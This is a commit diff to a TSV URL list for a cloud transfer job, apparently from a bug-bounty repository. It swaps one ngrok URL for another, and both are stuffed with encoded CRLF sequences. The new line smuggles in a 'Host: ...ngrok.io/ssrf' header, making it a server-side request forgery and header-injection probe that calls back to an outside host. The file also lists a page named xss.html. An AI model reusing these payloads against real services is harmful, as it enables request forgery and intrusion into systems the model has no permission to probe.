

Before and after one commit to missoumxss/heroku, a TSV file: cloud.tsv, drawn as a sheet; only a part is shown.

Commit message:
Update cloud.tsv

```diff
--- a/cloud.tsv
+++ b/cloud.tsv
@@ -1,3 +1,3 @@
 TsvHttpData-1.0
-https://3a2b4123.ngrok.io/%0D%0A%25%30%41%25%30%44%5c%74%5c%72%5c%6e%5Ct%5Cr%5Cnddd%5Cu000d%5Cu000a%26%23x0d%3B%26%23x0a%3B
+https://3a2b4123.ngrok.io/%25%30%44%25%30%41%48%6f%73%74%3a%20%33%61%32%62%34%31%32%33%2e%6e%67%72%6f%6b%2e%69%6f%2f%73%73%72%66\t\r\n\t\r\nddd\u000d\u000a&#x0d;&#x0a;
 https://bughunt1307.herokuapp.com/xss.html
```
